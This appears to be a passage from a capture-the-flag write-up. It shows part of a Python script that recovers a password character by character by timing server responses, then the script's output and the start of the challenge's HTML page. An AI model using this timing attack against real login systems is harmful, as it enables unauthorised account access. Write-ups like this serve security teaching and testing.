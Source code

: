 ```python
      max_delay = t_average
      candidate = c

  if(candidate == ""):
    raise Exception("[-]Couldn't find candidate for position %d..." % i)

  print "[*]Candidate for pos %d: [%s]" % (i, candidate)
  password += candidate

  # Delay increases per index (since we iterate over string)
  cumulative_delay += round_delay
```

Executing this gives us:

```bash
$ ./timing_attack.py 
[*][0] -> 284 ms (average)
[*][1] -> 253 ms (average)
[*][2] -> 251 ms (average)
[*][3] -> 336 ms (average)
[*][4] -> 258 ms (average)
[*][5] -> 241 ms (average)
[*][6] -> 541 ms (average)
[*][7] -> 259 ms (average)
[*][8] -> 262 ms (average)
[*][9] -> 247 ms (average)
[*][a] -> 246 ms (average)
[*][b] -> 243 ms (average)
[*][c] -> 249 ms (average)
[*][d] -> 243 ms (average)
[*][e] -> 238 ms (average)
[*][f] -> 240 ms (average)
[*]Candidate for pos 0: [6]
[*][60] -> 591 ms (average)
[*][61] -> 568 ms (average)
[*][62] -> 543 ms (average)
[*][63] -> 556 ms (average)
[*][64] -> 571 ms (average)
[*][65] -> 548 ms (average)
[*][66] -> 871 ms (average)
[*][67] -> 545 ms (average)
[*][68] -> 560 ms (average)
[*][69] -> 543 ms (average)
[*][6a] -> 554 ms (average)
[*][6b] -> 559 ms (average)
[*][6c] -> 572 ms (average)
[*][6d] -> 564 ms (average)
[*][6e] -> 548 ms (average)
[*][6f] -> 658 ms (average)
[*]Candidate for pos 1: [6]
[*][660] -> 861 ms (average)
[*][661] -> 939 ms (average)
[*][662] -> 844 ms (average)
(...)
<html>
<head>
    <title>Lawn Care Simulator 2015</title>
    <script src="//code.jquery.com/jquery-1.11.3.min.js"></script>
    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/js/bootstrap.min.js"></script> 
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
```